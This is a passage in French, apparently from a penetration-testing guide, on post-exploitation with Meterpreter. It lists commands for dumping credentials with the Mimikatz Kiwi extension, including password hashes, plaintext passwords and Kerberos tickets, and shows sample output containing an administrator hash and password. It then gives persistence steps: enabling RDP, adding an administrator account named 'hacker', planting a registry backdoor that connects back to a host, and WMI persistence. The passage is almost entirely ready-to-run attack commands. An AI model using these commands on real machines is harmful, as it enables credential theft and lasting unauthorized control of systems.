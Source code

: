 ### Techniques avancées avec Mimikatz (Kiwi)

```
# Chargement de l'extension Kiwi
meterpreter > load kiwi

# Extraction des identifiants en mémoire
meterpreter > creds_all

# Extraction des hachages SAM
meterpreter > hashdump

# Vol de tickets Kerberos
meterpreter > kerberos_ticket_list
meterpreter > kerberos_ticket_use
```

Exemple de sortie de `creds_all` :
```
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Administrator  WORKGROUP  aad3b435b51404eeaad3b435b51404ee  31d6cfe0d16ae931b73c59d7e0c089c0  da39a3ee5e6b4b0d3255bfef95601890afd80709

wdigest credentials
==================

Username        Domain     Password
--------        ------     --------
Administrator   WORKGROUP  P@ssw0rd123!

kerberos credentials
===================

Username        Domain     Password
--------        ------     --------
Administrator   WORKGROUP  P@ssw0rd123!
```

## Persistance

### Mécanismes de persistance Windows

```
# Création d'un utilisateur administrateur
meterpreter > run post/windows/manage/enable_rdp
meterpreter > run post/windows/manage/add_user USERNAME=hacker PASSWORD=P@ssw0rd

# Installation d'une porte dérobée via le registre
meterpreter > run persistence -X -i 30 -p 443 -r 192.168.1.50

# Utilisation de WMI pour la persistance
meterpreter > run post/windows/manage/wmi_persistence
```

